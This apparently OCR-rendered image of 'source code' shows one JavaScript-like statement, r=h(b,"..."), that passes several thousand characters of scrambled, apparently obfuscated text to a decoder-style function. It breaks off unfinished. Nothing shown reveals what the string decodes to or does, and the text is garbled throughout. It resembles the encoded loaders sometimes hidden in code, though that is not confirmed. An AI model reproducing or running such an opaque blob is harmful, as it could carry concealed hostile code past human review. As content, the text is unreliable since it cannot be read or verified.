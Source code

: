 r=h(b,"Wb#kY7K(;P{V5yBO;b5(#P;5BO7PV7b;(VYYV!bKK55Vk+P;PkG{7PV5bO;:{7bV;5OeYfV(b(KPyPY#7bB;(zVy#5;OObEK(VkB{5CYK(5{#V7#{B#yP5O(7K(vOV;VyVKByBkYP(O{7V;bOO7y5(bOK7OP7k{VyVk5POKY5O#{;yOA7b;POOYOV_#7;(yVKVBPkbPYO(7;(BObKkVy#(;BPy##V;nO(7y0b2(Y/Y7P5Okb;{Ob75VKdB;YB#Y;5VkKPbOY7(V;B7YO5byY7OBOkOy#7kP;OV7BVOy(KyVybBPkO7Y7VP5{k7VKY;{YO5K75Bkt;K{;kVVbB*KbBKk5{Ka5K;;O7V5V#b;YB(Y;75B5Y{VbR5#{5Zk;PYO{K;yk7b5kb(({yykB77BKYFV)SKKB5{BKKBOP7OVV#((ymy((ykkKPPO{b{PO_#KY(PbYVbbO((y{kyPBVyY(7(OYK#57BkKBOBYBBb7w{(&{Ky5BOY(P5BkOPO?7bkVybBPhBB(YB}k{Py3ZKb({DkKP5ykx;Y{KbVyBYB{Y2(K{5VB7(>57kkY{5O7b5(#{;7Bb7#yYY6P{OyKC5bByK55B#5Yt5V7V{VkB{VoYK(5{#VkO57#;KPOOKb5Y##;Y1V(yybkYP(O;Q5P5O{KbV5y{(kBb7b{ybBKyBbkK5(k7;yOJ7kVY5y75V5bB;(B#Y#{{UY(7O(KyVy#=;kBYO{;PBV7YV7b7(7ybBOPKdYb;{B#bPkBy7(VBkO5YF7K;5V#5Y(ybk#P({VkKV#b(;#P{i7;Kb;(Y55k7PBv 7K(;#P;y{bkY{{yP7{yOk7POh7Kb;;7Y5Kb{(yB&YbKYBKY{7yBP((;KbyPBOw7KVB#K;#b9(yyKkPP5Oyb7{VuKK75VkkK;BB7KyOYb{k#YKP55#OP?{Oz{(5{5k(5(b(k;{k#YVKb#K{ykk5PBOYbK5(#VkOB7Y{VY#M({y#YKKm#5P;O#77V;bPkPVpbV;kP;#kVkZkPK.775VO##;kPV#VPbBkYVVPwy#VVKYKPK#PP{BO7#V7bKk(V7by(5yKO;;(_kK;5Pk7;B/^;#BBY;{VcBKOP5X{({PVBB(P%P7PB577V#b7(;yPb5;byVYk{5#yPPOk7KVPb{Yb5k#;;7PP#YVYcYP(b87y5i#k;YP;#;;KByY;KKO5;ryjYY{;V;YB5(#BPPOkYV5bbO;7S;(;5BkbPYO7bV{wOV7{5;g{(yBOYPVkb{(5OBKy5Y#(;{BVb9;#B(Y{VPb5(BPkbB{BOBPbFb7(V{by(B{Y#b(;ByY7KLO(KBy#k{PKL7;(BOYyVFbkB{k{PBsVK(K7yY#V;BOb7#KVBP7y5#ybK(y{Y5{Kbh((O;KPVB#b;YB7A{;pyOYyVb5(755Bky{kO(KI5b7b5Pb(({yykB7Yy7YYPOTOKb;kb{P;tk7Y5Yy775BfYY{Kb#({5O7OBB#7;;BVY5K(Bk7V{y5VKOPbY(P{H5KKyxk(YKO5KbVKbP({BVYO{(bp(#{KB{((OO755YyPP.B(Y(K7B5(YBbkY{kHP7B(B7#5Bb;(VyBkO7kBkYb{;6k#bV(kk;Vf)7;V5#Y;NP5k#{Vb#(yy(#O{76kKPB57PV#b7(;yPOB(;B>Yk{VVVYKyK#KVPkV(OB#Y7{KykYb{O<{(By{BV7Ky(KP57by;KBO7b{(5P({yBO#;7OV#{{Vkn;KO07KV#yP{7b(KV5BkbP#VYk}(;4(k;VPbO;KB#Y7KkBB(B5BKbyZ#(;{ByYBK5By77Vb5y75y;kyP{OO(;OYKyV{by;-BbO7;7BkY{{75kY;y7#y{#TKb7{V#Y;VOK73{;bB(5B#K7yQ#V;BOb7#((OyY5KBbP;PyPK5yPk#P7O;7P(#OV7k5(bykV5K7K{KkP{5OOK#57#KK7Vyb#(b5OkPVy#(7YVKYB{5j{(bVk7;y(bB;bBYY77yBBYb{#bYK5;{byPb9k7((P}5;;O57O{PbB#B5bkyVbbYK#y##5;(bV;7BbYY{(N;#y{(b(K7ykkyVO#{;7B;YV{55yYkV{5;7kBkkk5Kk#;5BO7#Vky#K#5KbY;YVyYyPyk4PyOK7PV5byk#VOb((5B(Y{{VbkKOOyK55k#K;PB{bSP=B;YV{y55KbB(Yk7;5OP6bG7KVPb5(y5#b7;By{YOV#l((Pyb#OK;5*#k;;B57kVKbK(PyykB{(R{KVybkkPYO{VKky(5yOY#{kV5YBVRbY(Y5{B;{)OB77V7#V(OOM,oV{NO(7y;BOPYO{b;5(#(PYO;Y5{B5y(;y;Y;PB5{P#OY7(V{by;J5kV7BP)5;#y#k7P;OPb;PYOP7{5KbOPb{bkK{5BYKYB#k5{{QyKb5y7Yykb{(yBvYbK;yOkO7yOk((y;k;P{OK7(5;#5kV5IY#V;bV(Ky#k({7D7KB5{#kP7b(;KyyYD{ktYbV{OdVK(5;k7P({5Yb{xO5{{#H(FykkKP(Vyb{POZ(K75VbOP;B77b{y5V7Vy#YyPOOOK{O#KVV;bV(ByObK(BBVkB{ybkK;P7kbPYVOYb5O#b(By775;5B0(5B;KkB(#P;5BO7w({BO77V;bB;PP7#_Vfhs#b;5jyPOOV7kV5#7;(yyOOVUbY#;5BkkPyQPKkVV#OYPb7;EyVkB{b!##VK5BVbB{PkP;Pb5;YB#Y7{;qP#7{y)V(PO{K(51#k;KB(OVP(O777{V5PkyPyQY5(kk;yO<7kVY5P7PVVbVkkVBYBPBkbP5O(7{VybBYVV7tP(BB5#OVVk;V#OBKb5Y#7k{yu#(;yB;9({V5y7#B#k({yV57#5Vk#PyO(YO57#k;Pn55(y#k7P;OPkY{ktKK75VO7YyV<7K{;#bkVy(k5{{ob(b5bk(P;By7yVb# ;#BVkO{VbYkb5Pk;PPVBY7V;#{;YBB77;KbP;=P5b5P5O;KVVykbPV5O7(VPOF(KB;gK{56#KKyKO7PbOb7-VK#;Y(B;kO{{b#kKVKkKP#g77(5Vk7KPOb7k;{bR;#Ik(Y5P#5;OO byP7OKYBV;b(k7VPYOV#D#K(y#755V##;7B;YPK5ObY(V#bb;*yV#a{#Sk(kBO7{V7b;(Vy5Ob;by(O;;kbkKkOK(7V5bO;#Bk#;(VOYYIV7b;KyyOk(P75B#K;POK7mVPbB(BB7Yk{kA;K{ybkkP{O(VVb5;#B#YO{;,VKB5OBY(by(Yk{(Vbk555b5{Okb(7y;kVP55bkV{VOPK(ybBbY55y7OVVbk(5B7Y(PyVO(uyYB;(VOb#8{b#K(5BKY5{;5OPVxyKb5Y#(y{7BVy#7;yVVbOV;bY7KV#b{;bO#KM7(5Pby;gBkYYKPyVYO{Pb((O;Pb#PCO7KP5(#yP(bk;OyPk5POGeb;{BOB7OyYkK;KO{pV{kbO(yBykO{ObkKYy#BPKyOk7OVB#K{yb{(kyKkPP{VOYPP7w7(t(5E(P(B(({B;Yr{kEKK((56PKb5(#VYP5B7>VB#b{{b((_ykkKP({OY7P7OKKV5y#bkOVY((B7ky{ENkKY(5b#Ky55k#;OOyk#V;#2{(#tKyySkkPY{{#VPOVrk(VVb{;;BY7YV;b:(YyBOb;;bp7y55#OPbb;PyyBYb{Yq7#({Vb#K{ybkp{YO#bw55#7;BBBOO{P9K(7yfBBP(ZkKP({bO;7O(7{{BbB#OV;#7;V#y{bOk7KVPb{Y^V7#(;{B#Y{{Kb7#7VVkRPbE77y5K#;{Ob{(7y;kVP55YY#PPOPKO5kkYVK#O(5yOY#{kV(YV{PVO7Py(#yPB #7yVPy(KyBKYyV;b#K{B)kB{Y#(PkBy7)VkbYk{{O#b;Yy5YY{gJOPb}Y7(V{by(BPkb7;VB#YO{Ob#(k;P_y{k<K7KVV#KVZ#e(KyPk5Py5kYY{Vg#K4(O/P;KO77wKB/P{K#kK55Ok#PkVkk;PVOyY7V{bV({yb77VKbn(;yYYk(VOO7y5^#YP45K75VO#!{kb(KP55#OPFVK#BP;BO7{5PbK;BB%OBPkH7K{ykkVP(#7PbBVYBVbb#k;V5<5;cPbb5{5O5;OEy77V;bV(5PY#{({yV7rV#Q#(K;(byPm3#755K#yk55K7VV#5;7(ykk#PV<57OBO7VV7b;(Vy5#k;bB;Y5{yT(KO5V7P5ObO;#B7YKK5Ob7bV;nB(By:BB{7O575({M;;PBO7#{BbB{bbEK(5{#y;B{BkyY(y{7#5YykK;B;kO{{kYPOO{7y5p#bk55V#B;y5(Y;V{kVV6GbKY5(#;kBVOkkYYyPYVV}b7kk5PY#{P+VKkyPk(Py#f{7BKYP{5pykkVk:VKBy0BO({N{7{(VBKK(OP77{ybK(OBbk(7Pt{KB;#b7;VV{kV5fbK;8BKY#KPk7{YOV7B5b##kP5(#;(OB7Yy{{5{77B7k75;kd;BOb7YV7ybYBVybO{(NPK55Ok#P7O;7VOB#bPbB(Y{{yJB##KYBV(OBFYY{5VKYy5B#;P#b(;5yyY0{k-YbP{Kb#K7;kb#P;BO7{;5y7K{BY7Y{#bC({O5KO5##7;;BPOy;yBV7#{y5VKby{Yb{5nK7ByYk#P;bVPbBbYY{(};#;POQ7#Y{{kk{b/PbkPP#b(yBO7K{{b{#V{xKk5O#P;5BO7QK7BVYyK5hK(kB(YV5y7*PkOK7PV{B7775b#7;(P5#(V(M(#;PkbY{KX#7{5k#5;BBY_KV(bV#Oy7k{{Yb6K{5#kK7qb5;7B#Y7{;(BB#YkPyC7Kb7yyb#k;KBPY{KyB77(KKO5(7y5Y({bOPKO5ykkYY5F#kyOY({7a;KV55O;Y{V{t{VyYK;kBKYP{{5kbrV7b{(By7OO{(,;b;5kkk;k{YhOPJ##(ByKkO{;F{K>;#kkP({VkBVYBkKYBPkO{PNOKVP#7B5P#Y;(B{YVKVB#YO{5OBKBy#K7y##V;BOb7#K(OyY5V5b;kYVOYOPOk#{PO;7VVBbOk(5yby(BOk77{7bP#{{Ok5PYO{7B(5gb;kOb7Yyy75{k_KKP5{zOK#yV#(P5OO7Y5KbB(5V7qy(zy5k5PycKK;5{#;;5By7kVVb{(Vyy{*bbKK5P#5;yV(#;PPOyYBVB#(;ky5OV;Bbk(kOPKKVO##;7BKn(;bO(7(V;5;7kBkkk5Kk#;5BO7#Vk5(YyVVbO;KP7#7{9k1{7OK7PV5byky5##{;;BBY#VV2;(YydBB(BO7(S5###;yb7;(yVkB{b^##7{yLPKb5PBY(YOP7V5k#((VBVYOybY5P(O{7yVBB7Kk5BbO;O{s#({V2O(byyY7P{V;YB5(#BPPOkYV5bbO;7a;(K5BkbPYO7j5Pa/b7{5Kb5k{5777{7k;{7OBKb5Y#7kB5Y#8;KOKt(P###(#v7(P5V#BPbO#b(;POYKbVKyY(;P{#k{5b#(KyP#yYO5Y;(OYYyV?bk(YP{b#(KyBY57KBb(b5b7YVOb{(yBsYbKbBK7#7yB;(;5;7V5(#b;YB(Y;K(ByYyKYO#(kyVk(57k(;VBB7bV#y57zV{y7;YPYYV{#m##2VKkK{#5V;bB(Y({{FyBkY;P;PPwY7O5##7;KPBkY;YB77{V5b){